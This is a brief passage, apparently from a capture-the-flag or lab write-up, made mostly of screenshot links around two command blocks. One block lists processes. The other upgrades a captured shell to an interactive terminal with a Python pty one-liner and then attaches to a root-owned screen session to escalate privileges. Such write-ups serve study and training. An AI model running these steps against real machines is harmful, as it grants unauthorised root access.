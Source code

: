 ```
ps aux
```
![image](https://user-images.githubusercontent.com/33616880/230254776-1416e191-549f-4f02-a683-cce2a129a5db.png)
![image](https://user-images.githubusercontent.com/33616880/230255081-2d9d559b-e3b9-4c4a-93d6-530f40436951.png)


```
python3 -c "import pty;pty.spawn('/bin/bash')"
export TERM=xterm
screen -x root/root
```
![image](https://user-images.githubusercontent.com/33616880/230254965-359d1dd1-6eab-4e74-824f-fdb933ff8615.png)
![image](https://user-images.githubusercontent.com/33616880/230254971-feb96981-888e-4074-9941-9f76ec8ee266.png)
